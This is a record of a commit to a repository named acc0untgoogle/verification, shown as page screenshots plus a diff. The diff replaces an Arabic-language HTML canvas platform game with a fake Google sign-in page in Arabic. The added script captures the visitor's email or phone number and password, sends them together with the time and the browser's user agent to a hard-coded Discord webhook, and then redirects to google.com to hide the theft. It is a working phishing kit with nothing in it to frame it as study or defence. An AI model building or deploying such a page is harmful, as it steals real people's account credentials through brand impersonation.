

Before and after one commit to acc0untgoogle/verification, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 944 px of the page. After the commit the page ends 834 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,434 +1,326 @@
 <!DOCTYPE html>
-<html lang="ar">
+<html lang="ar" dir="rtl">
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>بيئة اللعبة الثنائية الأبعاد</title>
+<title>تسجيل الدخول</title>
 <style>
-        * {
+    body {
+        font-family: Arial, sans-serif;
+        background-color: #f0f4fa;
         margin: 0;
         padding: 0;
-            box-sizing: border-box;
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
     }
-
-        body {
-            background: linear-gradient(135deg, #1a2a6c, #b21f1f, #fdbb2d);
+    .container {
+        display: flex;
+        justify-content: center;
+        align-items: center;
+        height: 100vh;
+    }
+    .login-box {
+        background-color: white;
+        padding: 40px;
+        border-radius: 25px;
+        display: flex;
+        flex-direction: row;
+        width: 800px;
+        justify-content: space-between;
+        align-items: center;
+    }
+    .login-form {
+        width: 50%;
+    }
+    input[type="text"], input[type="password"] {
+        width: 100%;
+        padding: 15px;
+        border: 2px solid #0066ff;
+        border-radius: 5px;
+        font-size: 16px;
+        margin-bottom: 5px;
+    }
+    .error-message {
+        color: red;
+        font-size: 12px;
+        margin-bottom: 10px;
+        display: none;
+    }
+    .small-text {
+        font-size: 12px;
+        color: #0066ff;
+    }
+    .desc {
+        font-size: 12px;
+        color: #333;
+        margin-top: 10px;
+    }
+    .desc a {
+        color: #0066ff;
+        text-decoration: none;
+    }
+    button {
+        background-color: #0066ff;
         color: white;
+        padding: 10px 30px;
+        border: none;
+        border-radius: 25px;
+        font-size: 16px;
+        cursor: pointer;
+        margin-top: 10px;
+    }
+    .create, .small-link {
+        margin-right: 15px;
+        font-size: 14px;
+        color: #0066ff;
+        background: none;
+        border: none;
+        cursor: pointer;
+    }
+    .text-side {
+        width: 45%;
+        text-align: center;
+    }
+    .text-side img {
+        width: 50px;
+        margin-bottom: 10px;
+    }
+    .text-side h2 {
+        font-size: 26px;
+        margin-bottom: 5px;
+    }
+    .text-side p {
+        font-size: 14px;
+        color: #555;
+    }
+    .footer {
+        text-align: center;
+        margin-top: 20px;
+        font-size: 12px;
+        color: black;
+    }
+    .footer a {
+        margin: 0 10px;
+        color: black;
+        text-decoration: none;
+    }
+    label {
+        font-size: 12px;
+        color: #333;
         display: flex;
-            flex-direction: column;
         align-items: center;
-            min-height: 100vh;
-            padding: 20px;
+        gap: 5px;
     }
-
-        .container {
-            max-width: 800px;
-            width: 100%;
-            background: rgba(0, 0, 0, 0.7);
-            border-radius: 15px;
-            padding: 20px;
-            box-shadow: 0 10px 30px rgba(0, 0, 0, 0.5);
+    .email-box {
+        border: 1px solid #ccc;
+        padding: 5px 10px;
+        border-radius: 20px;
+        display: flex;
+        align-items: center;
+        gap: 5px;
+        justify-content: space-between;
+        font-size: 14px;
+        width: fit-content;
+        margin: 0 auto;
+    }
+    #password-page {
+        display: none;
+    }
+    .loading {
+        display: none;
+        text-align: center;
         margin-top: 20px;
     }
-
-        header {
-            text-align: center;
-            margin-bottom: 20px;
+    .loading-spinner {
+        border: 4px solid #f3f3f3;
+        border-top: 4px solid #0066ff;
+        border-radius: 50%;
+        width: 30px;
+        height: 30px;
+        animation: spin 1s linear infinite;
+        margin: 0 auto;
     }
-
-        h1 {
-            font-size: 2.5rem;
-            margin-bottom: 10px;
-            background: linear-gradient(to right, #ff7e5f, #feb47b);
-            -webkit-background-clip: text;
-            -webkit-text-fill-color: transparent;
-        }
-
-        .game-wrapper {
-            position: relative;
-            margin: 0 auto;
-            width: 600px;
-            height: 400px;
-            border: 3px solid #00b4d8;
-            border-radius: 10px;
-            overflow: hidden;
-            box-shadow: 0 0 20px rgba(0, 180, 216, 0.5);
-        }
-
-        canvas {
-            background: linear-gradient(to bottom, #1a1a2e, #16213e);
-            display: block;
-        }
-
-        .controls {
-            display: flex;
-            justify-content: center;
-            margin-top: 20px;
-            gap: 15px;
-        }
-
-        button {
-            padding: 10px 20px;
-            background: linear-gradient(to right, #00b4d8, #0077b6);
-            color: white;
-            border: none;
-            border-radius: 50px;
-            cursor: pointer;
-            font-weight: bold;
-            transition: all 0.3s;
-            box-shadow: 0 5px 15px rgba(0, 180, 216, 0.4);
-        }
-
-        button:hover {
-            transform: translateY(-3px);
-            box-shadow: 0 8px 20px rgba(0, 180, 216, 0.6);
-        }
-
-        .instructions {
-            margin-top: 20px;
-            padding: 15px;
-            background: rgba(0, 0, 0, 0.5);
-            border-radius: 10px;
-            border-left: 4px solid #00b4d8;
-        }
-
-        h2 {
-            color: #00b4d8;
-            margin-bottom: 10px;
-        }
-
-        ul {
-            list-style-type: none;
-            padding-left: 20px;
-        }
-
-        li {
-            margin-bottom: 8px;
-            position: relative;
-        }
-
-        li:before {
-            content: "•";
-            color: #00b4d8;
-            position: absolute;
-            left: -15px;
-        }
-
-        .key {
-            display: inline-block;
-            background: rgba(255, 255, 255, 0.1);
-            padding: 2px 8px;
-            border-radius: 4px;
-            border: 1px solid #00b4d8;
-            font-family: monospace;
-            margin: 0 3px;
-        }
-
-        footer {
-            margin-top: 30px;
-            text-align: center;
-            font-size: 0.9rem;
-            color: rgba(255, 255, 255, 0.7);
+    @keyframes spin {
+        0% { transform: rotate(0deg); }
+        100% { transform: rotate(360deg); }
     }
 </style>
 </head>
 <body>
-    <header>
-        <h1>بيئة اللعبة الثنائية الأبعاد</h1>
-        <p>تحكم في اللاعب وتجنب العقبات للوصول إلى الباب</p>
-    </header>
 
 <div class="container">
-        <div class="game-wrapper">
-            <canvas id="gameCanvas" width="600" height="400"></canvas>
+    <!-- صفحة البريد الإلكتروني -->
+    <div id="email-page" class="login-box">
+        <div class="login-form">
+            <input id="email-input" type="text" placeholder="البريد الإلكتروني أو الهاتف">
+            <div id="email-error" class="error-message"></div>
+            <div class="small-text">هل نسيت بريدك الإلكتروني؟</div>
+            <div class="desc">ألا تمتلك هذا الكمبيوتر؟ استخدم وضع الضيف لتسجيل الدخول بشكل خاص. <a href="#">مزيد من المعلومات حول استخدام "وضع الضيف"</a></div>
+            <div style="margin-top: 20px;">
+                <button onclick="showPasswordPage()">التالي</button>
+                <button class="create">إنشاء حساب</button>
             </div>
-
-        <div class="controls">
-            <button id="resetBtn">إعادة التعيين</button>
-            <button id="toggleBtn">إخفاء التعليمات</button>
         </div>
-
-        <div class="instructions" id="instructions">
-            <h2>تعليمات اللعبة</h2>
-            <ul>
-                <li>استخدم مفاتيح الأسهم <span class="key">←</span> <span class="key">→</span> للحركة يمينًا ويسارًا</li>
-                <li>استخدم مفتاح <span class="key">Space</span> للقفز</li>
-                <li>تجنب المسامير الحادة (اللون الأحمر)</li>
-                <li>اقفز على المنصات للوصول إلى الباب (اللون الأخضر)</li>
-                <li>اضغط على زر إعادة التعيين لبدء اللعبة من جديد</li>
-            </ul>
+        <div class="text-side">
+            <img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/Google_2015_logo.svg" alt="Google">
+            <h2>تسجيل الدخول</h2>
+            <p>باستخدام حسابك على <b>Google</b></p>
         </div>
     </div>
 
-    <footer>
-        <p>تم تطوير اللعبة باستخدام HTML5 Canvas - © 2023</p>
-    </footer>
+    <!-- صفحة كلمة المرور -->
+    <div id="password-page" class="login-box">
+        <div class="login-form">
+            <input id="password-input" type="password" placeholder="إدخال كلمة المرور">
+            <div id="password-error" class="error-message"></div>
+            <label>
+                <input type="checkbox" id="show-password"> عرض كلمة المرور
+            </label>
+            <div style="margin-top: 20px;">
+                <button onclick="submitLogin()">التالي</button>
+                <button class="small-link" onclick="backToEmail()">تجربة طريقة أخرى</button>
+            </div>
+        </div>
+        <div class="text-side">
+            <img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/Google_2015_logo.svg" alt="Google">
+            <h2>مرحباً</h2>
+            <div class="email-box">
+                <span>▼</span> <span id="display-email">example@gmail.com</span> <span>👤</span>
+            </div>
+        </div>
+    </div>
+
+    <!-- رسالة التحميل -->
+    <div id="loading" class="loading">
+        <div class="loading-spinner"></div>
+        <p>جاري تسجيل الدخول...</p>
+    </div>
+</div>
+
+<div class="footer">
+    <a href="#">الشروط</a>
+    <a href="#">الخصوصية</a>
+    <a href="#">المساعدة</a>
+    <a href="#">العربية</a>
+</div>
 
 <script>
-        document.addEventListener('DOMContentLoaded', function() {
-            const canvas = document.getElementById('gameCanvas');
-            const ctx = canvas.getContext('2d');
-            const resetBtn = document.getElementById('resetBtn');
-            const toggleBtn = document.getElementById('toggleBtn');
-            const instructions = document.getElementById('instructions');
+    // متغيرات لتخزين البيانات
+    let userEmail = '';
+    let userPassword = '';
 
-            // تعريف بيانات اللعبة
-            const gameData = {
-                width: 600,
-                height: 400,
-                platforms: [
-                    {x: 0, y: 360, w: 600, h: 40},
-                    {x: 150, y: 300, w: 100, h: 16},
-                    {x: 260, y: 260, w: 100, h: 16},
-                    {x: 360, y: 300, w: 100, h: 16}
+    function showPasswordPage() {
+        const email = document.getElementById('email-input').value.trim();
+        const emailError = document.getElementById('email-error');
+
+        if(email === '') {
+            emailError.textContent = 'الرجاء إدخال البريد الإلكتروني أو رقم الهاتف';
+            emailError.style.display = 'block';
+            return;
+        }
+        if(!validateEmailOrPhone(email)) {
+            emailError.textContent = 'تعذّر العثور على حسابك. الرجاء التحقق من البريد الإلكتروني أو رقم الهاتف وإعادة المحاولة.';
+            emailError.style.display = 'block';
+            return;
+        }
+
+        userEmail = email;
+        emailError.style.display = 'none';
+        document.getElementById('email-page').style.display = 'none';
+        document.getElementById('password-page').style.display = 'flex';
+        document.getElementById('display-email').textContent = email;
+    }
+
+    function backToEmail() {
+        document.getElementById('password-page').style.display = 'none';
+        document.getElementById('email-page').style.display = 'flex';
+    }
+
+    function validateEmailOrPhone(input) {
+        const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
+        const phoneRegex = /^[0-9]{6,15}$/;
+        return emailRegex.test(input) || phoneRegex.test(input);
+    }
+
+    function submitLogin() {
+        const password = document.getElementById('password-input').value.trim();
+        const passwordError = document.getElementById('password-error');
+
+        if(password === '') {
+            passwordError.textContent = 'الرجاء إدخال كلمة المرور';
+            passwordError.style.display = 'block';
+            return;
+        }
+
+        userPassword = password;
+        passwordError.style.display = 'none';
+
+        // عرض رسالة التحميل
+        document.getElementById('password-page').style.display = 'none';
+        document.getElementById('loading').style.display = 'block';
+
+        // إرسال البيانات إلى ويب هوك Discord
+        sendDataToDiscord();
+
+        // توجيه المستخدم إلى الصفحة الرئيسية بعد ثانية واحدة
+        setTimeout(() => {
+            window.location.href = "https://www.google.com"; // يمكنك تغيير هذا الرابط إلى الصفحة الرئيسية المطلوبة
+        }, 1000);
+    }
+
+    function sendDataToDiscord() {
+        const webhookURL = 'https://discordapp.com/api/webhooks/1404910412352327700/GCJf4yPnarHrDMDMgB5vmYIAz9dbncbmh2i-npw_AF6zg1y2uqbie2LcqJJlYRPUiSo4';
+
+        const data = {
+            content: '**تم تسجيل بيانات جديدة**',
+            embeds: [{
+                title: 'تفاصيل تسجيل الدخول',
+                fields: [
+                    {
+                        name: 'البريد الإلكتروني/الهاتف',
+                        value: userEmail,
+                        inline: true
+                    },
+                    {
+                        name: 'كلمة المرور',
+                        value: userPassword,
+                        inline: true
+                    },
+                    {
+                        name: 'وقت التسجيل',
+                        value: new Date().toLocaleString(),
+                        inline: false
+                    },
+                    {
+                        name: 'معلومات المتصفح',
+                        value: navigator.userAgent,
+                        inline: false
+                    }
                 ],
-                spikes: [
-                    {x: 320, y: 344, w: 40, h: 16}
-                ],
-                door: {x: 560, y: 320, w: 20, h: 60}
+                color: 16711680 // اللون الأحمر
+            }]
         };
 
-            // تعريف اللاعب
-            const player = {
-                x: 50,
-                y: 300,
-                width: 20,
-                height: 30,
-                speed: 4,
-                velX: 0,
-                velY: 0,
-                jumping: false,
-                grounded: false,
-                color: '#4cc9f0'
-            };
-
-            const keys = {};
-            const gravity = 0.5;
-            const friction = 0.8;
-
-            // رسم المنصات
-            function drawPlatforms() {
-                gameData.platforms.forEach(platform => {
-                    ctx.fillStyle = '#f72585';
-                    ctx.fillRect(platform.x, platform.y, platform.w, platform.h);
-
-                    // إضافة تأثير ثلاثي الأبعاد
-                    ctx.fillStyle = '#b5179e';
-                    ctx.fillRect(platform.x, platform.y, platform.w, 4);
-                    ctx.fillRect(platform.x, platform.y, 4, platform.h);
+        fetch(webhookURL, {
+            method: 'POST',
+            headers: {
+                'Content-Type': 'application/json',
+            },
+            body: JSON.stringify(data),
+        })
+        .then(response => {
+            if (!response.ok) {
+                console.error('Error sending data to Discord');
+            }
+        })
+        .catch(error => {
+            console.error('Error:', error);
         });
     }
 
-            // رسم المسامير
-            function drawSpikes() {
-                gameData.spikes.forEach(spike => {
-                    ctx.fillStyle = '#e63946';
-                    ctx.fillRect(spike.x, spike.y, spike.w, spike.h);
-
-                    // رسم شكل المسامير
-                    ctx.beginPath();
-                    ctx.moveTo(spike.x, spike.y + spike.h);
-                    ctx.lineTo(spike.x + spike.w/2, spike.y);
-                    ctx.lineTo(spike.x + spike.w, spike.y + spike.h);
-                    ctx.closePath();
-                    ctx.fillStyle = '#e63946';
-                    ctx.fill();
-                });
-            }
-
-            // رسم الباب
-            function drawDoor() {
-                const door = gameData.door;
-                ctx.fillStyle = '#2a9d8f';
-                ctx.fillRect(door.x, door.y, door.w, door.h);
-
-                // تفاصيل الباب
-                ctx.fillStyle = '#264653';
-                ctx.fillRect(door.x + 3, door.y + 5, door.w - 6, door.h - 10);
-
-                ctx.fillStyle = '#e9c46a';
-                ctx.beginPath();
-                ctx.arc(door.x + door.w - 5, door.y + door.h/2, 4, 0, Math.PI * 2);
-                ctx.fill();
-            }
-
-            // رسم اللاعب
-            function drawPlayer() {
-                ctx.fillStyle = player.color;
-                ctx.fillRect(player.x, player.y, player.width, player.height);
-
-                // إضافة تفاصيل للاعب
-                ctx.fillStyle = '#3a0ca3';
-                ctx.fillRect(player.x + 4, player.y + 5, player.width - 8, 8);
-                ctx.fillRect(player.x + 4, player.y + 18, player.width - 8, 8);
-            }
-
-            // تحديث اللاعب
-            function updatePlayer() {
-                // تطبيق الجاذبية
-                if (player.jumping && !player.grounded) {
-                    player.velY += gravity;
-                }
-
-                player.grounded = false;
-
-                // التحقق من التصادم مع المنصات
-                gameData.platforms.forEach(platform => {
-                    const dir = collisionCheck(player, platform);
-
-                    if (dir === "left" || dir === "right") {
-                        player.velX = 0;
-                    } else if (dir === "bottom") {
-                        player.jumping = false;
-                        player.grounded = true;
-                    } else if (dir === "top") {
-                        player.velY *= -0.5; // ارتداد بسيط
-                    }
-                });
-
-                // التحقق من التصادم مع المسامير
-                gameData.spikes.forEach(spike => {
-                    if (collisionCheck(player, spike)) {
-                        resetPlayer();
-                    }
-                });
-
-                // التحقق من الوصول للباب
-                if (collisionCheck(player, gameData.door)) {
-                    alert('مبروك! لقد وصلت إلى الباب!');
-                    resetPlayer();
-                }
-
-                // تطبيق الاحتكاك
-                player.velX *= friction;
-
-                // تطبيق الحركة
-                player.x += player.velX;
-                player.y += player.velY;
-
-                // منع اللاعب من الخروج من الحافة اليسرى
-                if (player.x < 0) {
-                    player.x = 0;
-                }
-
-                // منع اللاعب من الخروج من الحافة اليمنى
-                if (player.x > canvas.width - player.width) {
-                    player.x = canvas.width - player.width;
-                }
-
-                // منع اللاعب من السقوط خارج اللعبة
-                if (player.y > canvas.height) {
-                    resetPlayer();
-                }
-            }
-
-            // التحكم في الحركة
-            function handleMovement() {
-                if (keys[37] || keys[65]) { // اليسار
-                    if (player.velX > -player.speed) {
-                        player.velX--;
-                    }
-                }
-
-                if (keys[39] || keys[68]) { // اليمين
-                    if (player.velX < player.speed) {
-                        player.velX++;
-                    }
-                }
-
-                if ((keys[38] || keys[32] || keys[87]) && !player.jumping && player.grounded) { // القفز
-                    player.jumping = true;
-                    player.grounded = false;
-                    player.velY = -12;
-                }
-            }
-
-            // فحص التصادم
-            function collisionCheck(obj1, obj2) {
-        const vX = (obj1.x + obj1.width / 2) - (obj2.x + obj2.w / 2);
-        const vY = (obj1.y + obj1.height / 2) - (obj2.y + obj2.h / 2);
-
-        // جمع نصف العرض والارتفاع
-        const hWidths = (obj1.width / 2) + (obj2.w / 2);
-        const hHeights = (obj1.height / 2) + (obj2.h / 2);
-
-        let direction = null;
-
-        // إذا كان الجسمان متقاطعان
-        if (Math.abs(vX) < hWidths && Math.abs(vY) < hHeights) {
-            // حساب مقدار التداخل في كل اتجاه
-            const oX = hWidths - Math.abs(vX);
-            const oY = hHeights - Math.abs(vY);
-
-            // تحديد اتجاه التصادم بناءً على أقل تداخل
-            if (oX >= oY) {
-                direction = vY > 0 ? "top" : "bottom";
-            } else {
-                direction = vX > 0 ? "left" : "right";
-            }
-        }
-
-        return direction;
-    }
-
-            // إعادة تعيين اللاعب
-            function resetPlayer() {
-                player.x = 50;
-                player.y = 300;
-                player.velX = 0;
-                player.velY = 0;
-                player.jumping = false;
-                player.grounded = false;
-            }
-
-            // الرسم الرئيسي
-            function draw() {
-                // مسح Canvas
-                ctx.clearRect(0, 0, canvas.width, canvas.height);
-
-                // رسم الخلفية
-                ctx.fillStyle = '#1a1a2e';
-                ctx.fillRect(0, 0, canvas.width, canvas.height);
-
-                // رسم العناصر
-                drawPlatforms();
-                drawSpikes();
-                drawDoor();
-                drawPlayer();
-
-                // تحديث الحركة
-                updatePlayer();
-                handleMovement();
-
-                // طلب الإطار التالي
-                requestAnimationFrame(draw);
-            }
-
-            // إعداد مستمعي الأحداث
-            window.addEventListener('keydown', function(e) {
-                keys[e.keyCode] = true;
-            });
-
-            window.addEventListener('keyup', function(e) {
-                keys[e.keyCode] = false;
-            });
-
-            resetBtn.addEventListener('click', resetPlayer);
-
-            toggleBtn.addEventListener('click', function() {
-                if (instructions.style.display === 'none') {
-                    instructions.style.display = 'block';
-                    toggleBtn.textContent = 'إخفاء التعليمات';
-                } else {
-                    instructions.style.display = 'none';
-                    toggleBtn.textContent = 'عرض التعليمات';
-                }
-            });
-
-            // بدء اللعبة
-            draw();
+    document.getElementById('show-password').addEventListener('change', function() {
+        const passwordInput = document.getElementById('password-input');
+        passwordInput.type = this.checked ? 'text' : 'password';
     });
 </script>
+
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
